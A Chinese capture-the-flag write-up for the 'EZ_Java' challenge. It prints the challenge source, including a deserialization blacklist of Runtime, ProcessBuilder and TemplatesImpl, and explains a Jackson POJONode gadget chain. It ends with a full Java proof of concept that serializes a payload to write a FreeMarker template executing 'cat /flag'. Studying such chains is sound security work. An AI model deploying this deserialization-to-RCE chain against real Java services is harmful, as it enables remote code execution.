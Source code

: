 # EZ_Java

本地没有环境,所以就解析一下大佬的`PoC`​

先放几段比较关键的源码

​`ycbjava.Bean.HtmlBean`​

```java
public class HtmlBean implements Serializable {
  public Map HtmlMap;
  
  public String filename;
  
  public String content;
  
  public HtmlBean(HtmlMap htmlMap, String filename, String content) {
    this.HtmlMap = (Map)htmlMap;
    this.filename = filename;
    this.content = content;
  }
  
  public HtmlBean() {}
  
  public Map getHtmlMap() {
    this.HtmlMap.put(this.filename, this.content);
    return this.HtmlMap;
  }
/..../
}
```

​`ycbjava.Contorller.IndexController`​

```java
@Controller
public class IndexController {
  @RequestMapping({"/"})
  @ResponseBody
  public String index() {
    return "Welcome to YCB";
  }
  
  @RequestMapping({"/templating"})
  public String templating(@RequestParam String name, Model model) {
    model.addAttribute("name", name);
    return "index";
  }
  
  @RequestMapping({"/getflag"})
  @ResponseBody
  public String getflag(@RequestParam String data) throws IOException, ClassNotFoundException {
    byte[] decode = Base64.getDecoder().decode(data);
    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
    byteArrayOutputStream.write(decode);
    NewObjectInputStream objectInputStream = new NewObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
    objectInputStream.readObject();
    return "Success";
  }
}
```

​`ycbjava.Utils`​

```java
public class HtmlInvocationHandler implements InvocationHandler, Serializable {
  public Map obj;
  
  public HtmlInvocationHandler() {}
  
  public HtmlInvocationHandler(Map obj) {
    this.obj = obj;
  }
  
  public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    Object result = this.obj.get(method.getName());
    return result;
  }
}
```

```java
 public class HtmlMap implements Map, Serializable { 
	public Object get(Object key) {
    Object obj;
    try {
      obj = Boolean.valueOf(HtmlUploadUtil.uploadfile(this.filename, this.content));
    } catch (Exception e) {
      throw new RuntimeException(e);
    } 
    return obj;
  }
}
```

```java
public class HtmlUploadUtil {
  public static boolean uploadfile(String filename, String content) {
    if (filename != null && !filename.endsWith(".ftl"))
      return false; 
    String realPath = "/app/templates/" + filename;
    if (realPath.contains("../") || realPath.contains("..\\"))
      return false; 
    try {
      BufferedWriter writer = new BufferedWriter(new FileWriter(realPath));
      writer.write(content);
      writer.close();
      return true;
    } catch (IOException e) {
      System.err.println("Error uploading file: " + e.getMessage());
      return false;
    } 
  }
}
```

```java
public class NewObjectInputStream extends ObjectInputStream {
  private static final Set<String> BLACKLISTED_CLASSES = new HashSet<>();
  
  static {
    BLACKLISTED_CLASSES.add("java.lang.Runtime");
    BLACKLISTED_CLASSES.add("java.lang.ProcessBuilder");
    BLACKLISTED_CLASSES.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
    BLACKLISTED_CLASSES.add("java.security.SignedObject");
    BLACKLISTED_CLASSES.add("com.sun.jndi.ldap.LdapAttribute");
  }
  
  public NewObjectInputStream(InputStream inputStream) throws IOException {
    super(inputStream);
  }
  
  protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
    if (BLACKLISTED_CLASSES.contains(desc.getName()))
      throw new SecurityException("Class not allowed: " + desc.getName()); 
    return super.resolveClass(desc);
  }
}
```

首先我们来看到`IndexController`​,有三条路由

​`/templating`​很明显就是模板渲染,可以传递一个`name`​参数

​`/getflag`​也很明显允许我们传递一段`base64`​编码的序列化数据,并且将它反序列化

因为这里的黑名单过滤的其实还算比较严格的,所以我们先按照题目预期的思路进行解决

我们可以看到`ycbjava.Utils.HtmlUploadUtil`​

这里定义了一个`uploadfile()`​方法,接受`filename`​和`content`​两个`String`​参数

只能传入`filename`​后缀为`ftl`​的文件,指定到`/app/templates/`​目录下

但是我们正常情况下是调用不了这个方法,只能够通过给的`/getflag`​路由,通过反序列化传入一个恶意的`ftl`​文件,再通过`/templating`​路由来调用

那我们就需要找到什么地方调用了这个`uploadfile()`​方法,我们可以发现在`HtmlMap`​中有一个`get()`​方法,这个`get()`​方法调用了`uploadfile()`​方法

继续往上走,看看有哪个地方调用了`get()`​方法,直接`find usage`​有则多地方,所以就直接在`Utils`​目录下找,可以发现`HtmlInvocationHandler`​中的`invoke()`​方法调用了`get()`​

而`HtmlInvocationHandler`​是一个动态代理类,动态代理类的一个特性就是动态代理类会自动执行动态代理类中的`invoke()`​方法

所以我们需要调用一处`HtmlInvocationHandler`​代理的类的任意方法来让他调用`invoke()`​方法,也就是`HtmlBean`​中的`getHtmlMap()`​方法,因为这个方法调用了`HtmlMap.put()`​

那么我们如何调用到这个方法呢,就要用到`jackson链`​了

需要用到`POJONode`​的`toString()`​方法来出发任意类的`getter()`​方法

至于`POJOnode`​类如何通过`toString()`​方法调用任意类的`getter()`​方法参考这篇文章[`https://xz.aliyun.com/t/12509`](https://xz.aliyun.com/t/12509)​

简述就是

```java
通过父类BaseJsonNode的toString()方法
toString -> InternalNodeMapper#nodeToString -> ObjectWriter.writeValueAsString
然后通过ObjectWriter.writeValueAsString去调用任意类的getter()
```

所以我们只需要把`Ezjava`​的后半段和`jackson链`​的前半段结合就好了

```java
 
import com.fasterxml.jackson.databind.node.POJONode;
import com.fasterxml.jackson.databind.node.BaseJsonNode;
import com.ycbjava.Bean.HtmlBean;
import com.ycbjava.Utils.HtmlInvocationHandler;
import com.ycbjava.Utils.HtmlMap;
import javassist.*;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;
 
public class Poc {
 
    public static void main(String[] args) throws Exception {
        HtmlMap htmlMap = new HtmlMap();
        String filname = "index.ftl";
        String content = "<#assign ac=springMacroRequestContext.webApplicationContext>\n" +
                "  <#assign fc=ac.getBean('freeMarkerConfiguration')>\n" +
                "    <#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n" +
                "      <#assign VOID=fc.setNewBuiltinClassResolver(dcr)>${\"freemarker.template.utility.Execute\"?new()(\"cat /flag\")}";
        setFieldValue(htmlMap, "filename", filname);
        setFieldValue(htmlMap, "content", content);
        HtmlInvocationHandler htmlInvocationHandler = new HtmlInvocationHandler(htmlMap);
        Map map = (Map) Proxy.newProxyInstance(
                HtmlMap.class.getClassLoader(),
                new Class[] {Map.class},
                htmlInvocationHandler);
        HtmlBean htmlBean = new HtmlBean();
        setFieldValue(htmlBean, "HtmlMap", map);
 
        POJONode jsonNodes = new POJONode(htmlBean);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        objectOutputStream.close();
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);
 
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```

参考链接:

[https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/](https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/)

[https://xz.aliyun.com/t/12509](https://xz.aliyun.com/t/12509)

‍
